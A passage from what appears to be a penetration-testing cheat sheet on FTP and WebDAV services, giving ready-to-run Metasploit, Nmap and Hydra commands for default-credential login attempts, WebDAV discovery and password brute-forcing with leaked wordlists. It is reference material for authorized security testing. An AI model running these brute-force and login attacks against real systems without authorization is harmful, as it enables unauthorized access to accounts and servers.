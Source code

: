 ```bash
msfconsole -qx "
    use auxiliary/scanner/ftp/ftp_login;
    set RHOSTS $WEBSITE;
    set USERPASS_FILE /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt;
    run;
    exit"
```

### WebDAV

#### [Nmap](https://nmap.org/)

{% hint style="info" %}
Identify WebDAV
{% endhint %}

```bash
nmap -p 80,443 \
     -sS -sV --mtu 5000 \
     --script http-methods,http-webdav-scan $WEBSITE
```

#### [Metasploit](https://www.metasploit.com/)

{% hint style="info" %}
Scan WebDAV
{% endhint %}

```bash
msfconsole -qx "
    use auxiliary/scanner/http/webdav_scanner;
    set PATH /webdav;
    set RHOSTS $WEBSITE;
    exit"
```

#### [Hydra](https://github.com/vanhauser-thc/thc-hydra)

{% hint style="info" %}
Brute Force
{% endhint %}

```bash
hydra -V \
      -L /usr/share/seclists/Usernames/sap-default-usernames.txt \
      -P /usr/share/seclists/Passwords/darkweb2017-top10000.txt \
      $TARGET http-get /webdav/
```

#### [DavTest](https://gitlab.com/kalilinux/packages/davtest)

{% hint style="info" %}
Scan WebDAV
{% endhint %}
